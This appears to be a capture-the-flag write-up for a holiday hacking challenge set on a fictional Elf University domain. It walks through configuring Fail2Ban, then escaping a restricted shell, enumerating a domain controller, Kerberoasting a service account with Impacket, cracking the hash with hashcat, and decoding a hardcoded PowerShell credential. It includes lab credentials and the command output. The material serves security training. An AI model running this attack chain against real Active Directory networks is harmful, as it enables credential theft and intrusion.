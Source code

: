 # 8) Kerberoasting on an Open Fire

_Difficulty:_  :evergreen_tree: :evergreen_tree: :evergreen_tree: \
  :evergreen_tree: :evergreen_tree:

> Obtain the secret sleigh research document from a host on the Elf University
> domain. What is the first secret ingredient Santa urges each elf and reindeer
> to consider for a wonderful holiday season? Start by registering as a student
> on the ElfU Portal. Find _Eve Snowshoes_ in Santa's office for hints.

[ElfU Portal](https://register.elfu.org/)

Eve Snowshoes

> Hey there, how's it going? I'm Eve Snowshoes.  Lately I've been spending a
> lot of cycles worrying about what's going on next door.  Before that, I was
> checking out Fail2Ban.  It's this slick log scanning tool for Apache web
> servers.  If you can complete this terminal challenge, I’d be happy to give
> you some things I’ve learned about Kerberoasting and Active Directory
> permissions!  Why don't you do some work with Fail2Ban on this Cranberry Pi
> terminal first, then we’ll talk Kerberoasting and Active Directory. OK?

```text
ElfU Registration Portal
New Student Domain Account Creation Successful!  You can now access the student
network grading system by SSH'ing into this asset using the command below:

ssh klgvjptkqc@grades.elfu.org -p 2222

ElfU Domain Username: klgvjptkqc
ElfU Domain Password: Hrtthvtul@
```

```text
2021-12-28 17:42:35 Login from 197.97.249.10 successful
2021-12-28 17:42:36 44.167.29.212: Request completed successfully
2021-12-28 17:42:36 Valid heartbeat from 51.171.20.230
2021-12-28 17:42:37 16.236.241.10: Request completed successfully
2021-12-28 17:42:37 Login from 196.50.240.87 successful
2021-12-28 17:42:37 Valid heartbeat from 120.181.218.234
2021-12-28 17:42:38 Login from 20.34.6.37 successful
2021-12-28 17:42:38 Valid heartbeat from 137.205.167.229
...
```

```sh
cat <<EOF > /etc/fail2ban/filter.d/filter_hohoho.conf
[Definition]
failregex = Failed login from <HOST> for .*$
            Login from <HOST> rejected due to unknown user name$
            Invalid heartbeat .* from <HOST>$
            <HOST> sent a malformed request?
EOF

cat <<EOF > /etc/fail2ban/action.d/action_hohoho.conf
[Definition]
actionban = /root/naughtylist add <ip>
actionunban = /root/naughtylist del <ip>
actionstop =  /root/naughtylist clear
EOF

cat <<EOF > /etc/fail2ban/jail.d/jail_hohoho.conf
[hohoho_jail]
enabled = true
logpath = /var/log/hohono.log
findtime = 60m
maxretry = 10
filter = filter_hohoho
action = action_hohoho
EOF

fail2ban-client -d

# fail2ban-regex /var/log/hohono.log \
     /etc/fail2ban/filter.d/filter_hohoho.conf
```

![fail2ban](img/fail2ban.png)

Eve Snowshoes:

> Fantastic! Thanks for the help!  Hey, would you like to know more about
> Kerberoasting and Active Directory permissions abuse?  There's a great
> [talk][chris-davis-talk] by Chris Davis on this exact subject!  There are
> also plenty of resources available to learn more about
> [Kerberoasting][kerberoasting] specifically.  If you have any trouble finding
> the domain controller on the 10.X.X.X network, remember that, when not
> running as root, nmap default probing relies on connecting to TCP 80 and 443.
> Got a hash that won't crack with your wordlist?
> [OneRuleToRuleThemAll.rule][onetorulethemall] is a great way to grow your
> keyspace.  Where'd you get your wordlist? [CeWL][cewl] might generate a great
> wordlist from the ElfU website, but it will ignore digits in terms by
> default.  So, apropos of nothing, have you ever known system administrators
> who store credentials in scripts? I know, I know, you understand the folly
> and would never do it!  The easy way to investigate Active Directory
> misconfigurations (for Blue and Red alike!) is with [Bloodhound][bloodhound],
> but there are [native][native] [methods][methods] as well.  Oh, and one last
> thing: once you've granted permissions to your user, it might take up to five
> minutes for it to propogate throughout the domain.

[chris-davis-talk]: https://www.youtube.com/watch?v=iMh8FTzepU4
[kerberoasting]: https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a





[onetorulethemall]: https://github.com/NotSoSecure/password_cracking_rules
[cewl]: https://github.com/digininja/CeWL
[bloodhound]: https://github.com/BloodHoundAD/BloodHound
[native]: https://social.technet.microsoft.com/Forums/en-US/df3bfd33-c070-4a9c-be98-c4da6e591a0a/forum-faq-using-powershell-to-assign-permissions-on-active-directory-objects?forum=winserverpowershell
[methods]: https://www.specterops.io/assets/resources/an_ace_up_the_sleeve.pdf

Escape the grading system with Ctrl-D,
then in Python spawn a shell:
```python
import pty
pty.spawn('/bin/bash')
```

As `nmap` is present, look for a potential DC:

```bash
$ klgvjptkqc@grades:~$ nmap -p 389 --open 172.17.0.*
Starting Nmap 7.80 ( https://nmap.org ) at 2021-12-28 16:31 UTC
Nmap scan report for 172.17.0.3
Host is up (0.00046s latency).

PORT    STATE SERVICE
389/tcp open  ldap

$ $ smbclient -L 172.17.0.3
Enter WORKGROUP\klgvjptkqc's password:

	Sharename       Type      Comment
	---------       ----      -------
	netlogon        Disk
	sysvol          Disk
	elfu_svc_shr    Disk      elfu_svc_shr
	research_dep    Disk      research_dep
	IPC$            IPC       IPC Service (Samba 4.3.11-Ubuntu)
SMB1 disabled -- no workgroup available

$ rpcclient -U klgvjptkqc 172.17.0.3
Enter WORKGROUP\klgvjptkqc's password:
$> querydominfo
Domain:		ELFU
Server:
Comment:
Total Users:	505
Total Groups:	18
Total Aliases:	33

rpcclient $> getdompwinfo
min_password_length: 7
password_properties: 0x00000001
	DOMAIN_PASSWORD_COMPLEX

$> enumdomgroups
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Domain Controllers] rid:[0x204]
group:[Schema Admins] rid:[0x206]
group:[Enterprise Admins] rid:[0x207]
group:[Group Policy Creator Owners] rid:[0x208]
group:[Read-only Domain Controllers] rid:[0x209]
group:[Cloneable Domain Controllers] rid:[0x20a]
group:[Protected Users] rid:[0x20d]
group:[Key Admins] rid:[0x20e]
group:[Enterprise Key Admins] rid:[0x20f]
group:[DnsUpdateProxy] rid:[0x44f]
group:[RemoteManagementDomainUsers] rid:[0x453]
group:[ResearchDepartment] rid:[0x454]
group:[File Shares] rid:[0x5e7]
```

```sh
$ /usr/local/bin/GetUserSPNs.py -outputfile spns.txt -dc-ip 172.17.0.3 ELFU/klgvjptkqc:'Hrtthvtul@' -request:who
[-] list index out of range

$ /usr/bin/python3  /usr/local/bin/GetUserSPNs.py -outputfile spns.txt ELFU.local/klgvjptkqc:'Hrtthvtul@' -request

$ /usr/bin/python3  /usr/local/bin/GetUserSPNs.py -outputfile spns.txt ELFU.local/klgvjptkqc:'Hrtthvtul@' -request
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

ServicePrincipalName                 Name      MemberOf  PasswordLastSet             LastLogon                   Delegation
-----------------------------------  --------  --------  --------------------------  --------------------------  ----------
ldap/elfu_svc/elfu                   elfu_svc            2021-10-29 19:25:04.305279  2021-12-28 17:01:52.916386
ldap/elfu_svc/elfu.local             elfu_svc            2021-10-29 19:25:04.305279  2021-12-28 17:01:52.916386
ldap/elfu_svc.elfu.local/elfu        elfu_svc            2021-10-29 19:25:04.305279  2021-12-28 17:01:52.916386
ldap/elfu_svc.elfu.local/elfu.local  elfu_svc            2021-10-29 19:25:04.305279  2021-12-28 17:01:52.916386
```

docker run -it --rm cewl  --verbose -o https://register.elfu.org > wordlist

```sh
$ hashcat  -m 13100 spns.txt  -r OneRuleToRuleThemAll.rule  --force -O wordlist.txt --show
$krb5tgs$23$*elfu_svc$ELFU.LOCAL$ELFU.local/elfu_svc*$6aca036b36ec56aba....cd1d1fa62cc310a23f5f654aaa088d4aed59eac66584289b3dd8f971118125d2d2ad1f16b5011cc42909c0972f5d393f75470340ad3555279f3907c66720c8627b8594233b992cb3f8cd1a7cf0be6617ae42932b0a008174f9da160eb6fd94973154ff64f20271d5bba631f987c99ce161ba6e4117877245bc5ac24a69163bc0640b79f322df1c073532fa11992a580cf88a467a39525516792b4201fd7c18d8487f3126c28ebde374817384e82d34253e:Snow2021!
```


smbclient  \\\\SHARE30\\elfu_svc_shr\\ -U elfu_svc
Enter WORKGROUP\elfu_svc's password:
Try "help" to get a list of possible commands.
smb: \> prompt off
smb: \> mget *


$ cat *.ps1 | grep -i password | grep -i secstr
$SecStringPassword = "76492d1116743f0423413b16050a5345MgB8AGcAcQBmAEIAMgBiAHUAMwA5AGIAbQBuAGwAdQAwAEIATgAwAEoAWQBuAGcAPQA9AHwANgA5ADgAMQA1ADIANABmAGIAMAA1AGQAOQA0AGMANQBlADYAZAA2ADEAMgA3AGIANwAxAGUAZgA2AGYAOQBiAGYAMwBjADEAYwA5AGQANABlAGMAZAA1ADUAZAAxADUANwAxADMAYwA0ADUAMwAwAGQANQA5ADEAYQBlADYAZAAzADUAMAA3AGIAYwA2AGEANQAxADAAZAA2ADcANwBlAGUAZQBlADcAMABjAGUANQAxADEANgA5ADQANwA2AGEA"
$aPass = $SecStringPassword | ConvertTo-SecureString -Key 2,3,1,6,2,8,9,9,4,3,4,5,6,8,7,7

$ grep SecStringPassword *
GetProcessInfo.ps1:$SecStringPassword = "76492....d111
GetProcessInfo.ps1:$aPass = $SecStringPassword | ConvertTo-SecureString -Key 2,3,1,6,2,8,9,9,4,3,4,5,6,8,7,7

```pwsh
$SecStringPassword = "76492d1116743f0423413b16050a5345MgB8AGcAcQBmAEIAMgBiAHUAMwA5AGIAbQBuAGwAdQAwAEIATgAwAEoAWQBuAGcAPQA9AHwANgA5ADgAMQA1ADD
IANABmAGIAMAA1AGQAOQA0AGMANQBlADYAZAA2ADEAMgA3AGIANwAxAGUAZgA2AGYAOQBiAGYAMwBjADEAYwA5AGQANABlAGMAZAA1ADUAZAAxADUANwAxADMAYwA0ADUAMwAwAGQANQQ
A5ADEAYQBlADYAZAAzADUAMAA3AGIAYwA2AGEANQAxADAAZAA2ADcANwBlAGUAZQBlADcAMABjAGUANQAxADEANgA5ADQANwA2AGEA"
$aPass = $SecStringPassword | ConvertTo-SecureString -Key 2,3,1,6,2,8,9,9,4,3,4,5,6,8,7,7
$aCred = New-Object System.Management.Automation.PSCredential -ArgumentList ("elfu.local\remote_elf", $aPass)
Invoke-Command -ComputerName 10.128.1.53 -ScriptBlock { Get-Process } -Credential $aCred -Authentication Negotiate
```


$ pwsh GetProcessInfo.ps1

 NPM(K)    PM(M)      WS(M)     CPU(s)      Id  SI ProcessName                                  PSComputerName
 ------    -----      -----     ------      --  -- -----------                                  --------------
      9     4.31      10.10       0.00    3520   0 conhost                                      10.128.1.53
     21     2.33       5.43       0.00     600   0 csrss                                        10.128.1.53


PS /home/klgvjptkqc> ConvertFrom-SecureString $aPass
41003100640036003500350066003700660035006400390038006200310030002100



SantaSecretToAWonderfulHolidaySeason.pdf
